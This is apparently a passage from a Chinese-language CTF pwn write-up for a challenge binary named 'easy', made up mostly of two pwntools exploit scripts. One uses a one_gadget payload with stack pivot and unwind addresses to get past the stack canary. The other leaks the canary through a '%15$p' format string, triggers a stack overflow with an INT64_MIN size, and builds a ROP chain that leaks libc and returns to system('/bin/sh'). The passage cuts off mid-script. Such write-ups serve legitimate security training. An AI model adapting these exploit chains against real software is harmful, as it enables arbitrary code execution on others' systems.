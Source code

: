 ```
p.recvuntil("please input size of motto:\n")
p.sendline("-9223372036854775808")
p.recvuntil("please input motto:\n")

payload  = "aaaaaaaa"
payload += p64(one_gadget)
payload  = payload.ljust(0x410, '\x00')
p.sendline(payload + p64(pivote_addr) + p64(unwind_addr))

p.interactive()
```

### 法二

其实不用unwind绕cannary这个神奇的操作，直接格式化字符串泄露就好了嘛，乖乖的。。哈哈哈哈
其他的栈溢出操作，同理，接下来就是常规操作了（泄露libc，返回到system或者one_gadet都ok）
正常ret2 system("/bin/sh")

详细脚本如下：

```
from pwn import *
context.log_level = "debug"
p = process("./easy")
# p = remote("118.25.216.151" , 10001)
elf = ELF("./easy", checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

# leak canary
payload = "%15$p" 
p.recvuntil("name:\n")
p.sendline(payload)
p.recvuntil("Hello ")
canary = int(p.recvuntil("please" , drop = True) , 16)

# 0x8000000000000000
int64_max = -9223372036854775808
p.recvuntil("motto:\n")
p.sendline(str(int64_max))

pop_rdi = 0x0000000000400fa3
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

payload = "a" * (0x410-8) + p64(canary) + "a" * 8
payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) 
payload += p64(0x400DA0)

p.recvuntil(" motto:\n")
p.sendline(payload)
# leak libc
puts_addr = u64(p.recvuntil("\n" , drop = True).ljust(8 , "\x00"))
print(hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
system = libc_base + libc.sym["system"]
str_bin_sh = libc_base + libc.search("/bin/sh").next()

int64_max = -9223372036854775808
p.recvuntil("motto:\n")
p.sendline(str(int64_max))

pop_rdi = 0x0000000000400fa3
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
```
